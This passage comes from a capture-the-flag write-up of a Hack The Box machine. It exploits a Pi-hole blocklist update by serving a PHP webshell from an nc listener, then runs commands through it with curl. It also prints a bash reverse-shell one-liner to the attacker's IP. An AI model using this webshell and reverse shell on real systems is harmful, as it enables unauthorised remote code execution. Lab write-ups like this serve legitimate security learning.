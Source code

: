 I’ll immediately restart the same `nc` listener.

Now the page loads, claiming to have updated the blocklists:

[![image-20200820162609611](https://0xdfimages.gitlab.io/img/image-20200820162609611.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20200820162609611.png)

Interestingly, it reports that the retrieval from my new blocklist was successful (and all the others fail, which makes sense, as they are on the internet which isn’t routable from the HTB machines).

I’ll click the big blue Update button at the top again, and I get another connection at `nc`. This time the server sent `.domains`. I’ll respond with a PHP webshell:

```

root@kali# nc -lnvp 80
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.10.200.
Ncat: Connection from 10.10.10.200:40094.
POST / HTTP/1.1
Host: 10.10.14.24
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
Accept: */*
Content-Length: 8
Content-Type: application/x-www-form-urlencoded

.domains
<?php system($_GET['cmd']); ?>

^C

```

The page looks similar to above, but this time it reports that retrieval failed:

![image-20200820162949485](https://0xdfimages.gitlab.io/img/image-20200820162949485.png)

Despite the failure message, there is a webshell at `/admin/scripts/pi-hole/php/0xdf.php`:

```

root@kali# curl http://127.0.0.1:2222/admin/scripts/pi-hole/php/0xdf.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

### Shell

I can get an interactive shell here using the following:

```

root@kali# curl -s -G http://127.0.0.1:2222/admin/scripts/pi-hole/php/0xdf.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.24/443 0>&1'"

```
